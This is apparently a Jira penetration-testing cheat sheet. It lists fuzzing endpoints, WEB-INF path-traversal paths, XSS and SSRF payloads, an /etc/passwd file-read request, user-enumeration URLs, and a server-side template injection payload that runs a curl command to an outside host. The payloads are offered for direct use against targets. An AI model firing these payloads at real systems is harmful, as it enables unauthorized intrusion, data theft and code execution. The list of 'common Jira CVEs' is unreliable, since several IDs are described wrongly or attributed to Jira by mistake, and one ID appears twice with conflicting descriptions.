 Jira Testing
Still ongoing updates 

#Fuzzing for jira 
/secure/ConfigurePortalPages!default.jspa?view=popular
/secure/ManageFilters.jspa?filterView=search&Search=Search&filterView=search&sortColumn=favcount&sortAscending=false
/secure/ContactAdministrators!default.jspa
/servicedesk/customer/user/login
/issues/?jql=
/plugins/servlet/oauth/users/icon-uri?consumerUri=http://google.com
/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
/plugins/servlet/gadgets/makeRequest?url=https://victomhost:1337@example.com
/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
/secure/QueryComponent!Default.jspa
/secure/ViewUserHover.jspa
/ViewUserHover.jspa?username=Admin
/rest/api/2/dashboard?maxResults=100
/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert(‘XSS’)%22%3E.vm
/rest/api/2/user/picker?query=admin
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/rest/api/2/user/picker?query=admin
/s/
/plugins/servlet/oauth/users/icon-uri?consumerUri=https://www.google.nl
/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=x2rnu%3Cscript%3Ealert(1)%3C%2fscript%3Et1nmk&Search=Search
ConfigurePortalPages.jspa
/plugins/servlet/Wallboard/?dashboardId=10100&dashboardId=10101&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=none&random=true
/_/;/WEB-INF/web.xml
/_/;/WEB-INF/decorators.xml
/_/;/WEB-INF/classes/seraph-config.xml
/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
/_/%3B/WEB-INF/web.xml
/_/%3B/WEB-INF/decorators.xml
/_/%3B/WEB-INF/classes/seraph-config.xml
/_/%3B/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
/_/%3B/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
/_/%3B/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/_/%3B/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties


#Some Common JIRA CVE's 
CVE-2023-22501 - Critical authentication vulnerability in Jira Service Management, allowing unauthorized access.
CVE-2022-0540 - A critical flaw enabling remote code execution via deserialization issues.
CVE-2022-26136 & CVE-2022-26137 - Issues involving improper authorization, leading to potential privilege escalation and session hijacking.
CVE-2023-22515 - An authentication bypass issue in certain versions of Jira, exploitable by attackers for unauthorized access.
CVE-2023-22522 & CVE-2023-22523 - Both involve vulnerabilities that can lead to privilege escalation via manipulation of session tokens.
CVE-2024-37768 - Recent privilege escalation vulnerability in Jira affecting various Data Center and Server versions.
CVE-2023-22518 - A security flaw leading to potential denial-of-service (DoS) attacks on Jira instances.
CVE-2022-26138 - Issue involving hardcoded credentials in Atlassian apps, leading to unauthorized access.
CVE-2022-26134 - An exploited vulnerability allowing arbitrary code execution in Jira.
CVE-2022-36804 - Another critical flaw leading to unauthorized actions, particularly through script vulnerabilities.
CVE-2022-43782 - Exploitable flaw causing improper access controls, which could allow unauthorized access to Jira configurations.
CVE-2024-34750 - An issue with Apache Tomcat integration impacting Jira, potentially leading to data breaches.
CVE-2023-22524 - Another critical issue that can be used to exploit service management setups within Jira.
CVE-2023-22527 - A vulnerability that can be used to escalate privileges in specific Jira configurations.
CVE-2024-29857 - A vulnerability due to integration with Bouncy Castle libraries, affecting performance and security.
CVE-2022-1471 - Denial-of-service vulnerability through improper request handling.
CVE-2023-22513 - RCE vulnerability in related Atlassian products which might impact Jira integrations.
CVE-2021-44228 & CVE-2021-45046 - Log4j vulnerabilities affecting numerous Atlassian products, including Jira.
CVE-2021-42574 - Unicode-based security issue impacting encoding and input handling.
CVE-2022-0540 - A flaw impacting communication between Jira and other Atlassian products, leading to unauthorized actions.
CVE-2019-13990 - Historic vulnerability affecting older Jira versions, showcasing the need for continuous updates.
CVE-2023-46604 - Exploit related to session management in Jira products.
CVE-2024-21689 - Related to Bouncy Castle integration, highlighting resource exhaustion issues.
CVE-2021-45046 - Addressing memory leak and execution issues.
CVE-2023-22514 - Weaknesses in authentication protocols leading to unauthorized data exposure.
CVE-2023-22516 - Vulnerability involving potential unauthorized configuration access.
CVE-2022-26129 - Exploit path involving session hijacking.
CVE-2022-36807 - Security issue allowing improper execution of scripts.
CVE-2022-26135 - Critical vulnerability potentially leading to unauthorized code execution.
CVE-2023-22517 - Highlighted for its potential in network exploitation via improper permissions.



#CVE-2019-8449
https://jira.atlassian.com/browse/JRASERVER-69796
https://victomhost/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true

#CVE-2019-8451:ssrf-response-body
https://jira.atlassian.com/browse/JRASERVER-69793?jql=labels%20%3D%20
https://victomhost/plugins/servlet/gadgets/makeRequest?url=https://victomhost:1337@example.com

#RCE Jira=CVE-2019–11581
https://hackerone.com/reports/706841
/secure/ContactAdministrators!default.jspa

#CVE-2018-20824
https://victomhost/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)

#CVE-2020-14179
REF=https://jira.atlassian.com/browse/JRASERVER-71536
https://victomhost/secure/QueryComponent!Default.jspa

#CVE-2020-14181
Ref=https://jira.atlassian.com/browse/JRASERVER-71560?jql=text%20~%20%22cve-2020-14181%22
https://victomhost/secure/ViewUserHover.jspa
https://victomhost/ViewUserHover.jspa?username=Admin
https://hackerone.com/reports/380354

#CVE-2018-5230
https://jira.atlassian.com/browse/JRASERVER-67289
https://host/issues/?filter=-8

#CVE-2019-3403
https://jira.atlassian.com/browse/JRASERVER-69242
/rest/api/2/user/picker?query=admin

#CVE-2019-8442
https://jira.atlassian.com/browse/JRASERVER-69241
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/rest/api/2/user/picker?query=admin
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml

#CVE-2017-9506
https://blog.csdn.net/caiqiiqi/article/details/89017806
/plugins/servlet/oauth/users/icon-uri?consumerUri=https://google.nl

#CVE-2019-3402：[Jira]XSS in the labels gadget
/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=x2rnu%3Cscript%3Ealert(1)%3C%2fscript%3Et1nmk&Search=Search
ConfigurePortalPages.jspa

#CVE-2018-20824：[Jira]XSS in WallboardServlet through the cyclePeriod parameter
/plugins/servlet/Wallboard/?dashboardId=10100&dashboardId=10101&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=none&random=true

#CVE-2019-3396: [Path Traversal & RCE]
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: JIRA
...
{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler(.)com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"},"body":""}}

#CVE-2019-11581: [SSTI]
http://<JIRA>/secure/ContactAdministrators!default.jspa
#Try SSTI payload in subject and/or body:
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://xyz.burp(.)net').waitFor()

#CVE-2020-14178: [Project Key Enum]
http://<JIRA>/browse.<PROJECTKEY>

#CVE-2020-36289: [Username Enumeration]
https://<JIRA>/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin

#jira-unauthenticated-dashboards:
https://<JIRA>/rest/api/2/dashboard?maxResults=100

#jira-unauth-popular-filters:
https://<JIRA>/secure/ManageFilters.jspa?filterView=popular


#Few links for Jira 
1. https://parasarora06.medium.com/cve-2018-5230-jira-cross-site-scripting-59ec96b3d75f
2.https://medium.com/spark1-us/secret-scanner-for-jira-and-confluence-cve-2023-22515-defense-in-depth-ce30f10a7661
3. https://logicbomb.medium.com/bugbounty-nasa-internal-user-and-project-details-are-out-2f2e3580421b
4. https://logicbomb.medium.com/one-misconfig-jira-to-leak-them-all-including-nasa-and-hundreds-of-fortune-500-companies-a70957ef03c7
5. https://github.com/anmolksachan/JIRAya
6. https://www.tenable.com/plugins/nessus/73273
7. https://krevetk0.medium.com/two-easy-rce-in-atlassian-products-e8480eacdc7f
8. https://hackerone.com/reports/632808
9. https://www.acunetix.com/vulnerabilities/web/atlassian-jira-servicedesk-misconfiguration/
10. https://medium.com/tenable-techblog/exploiting-jira-for-host-discovery-43be3cddf023
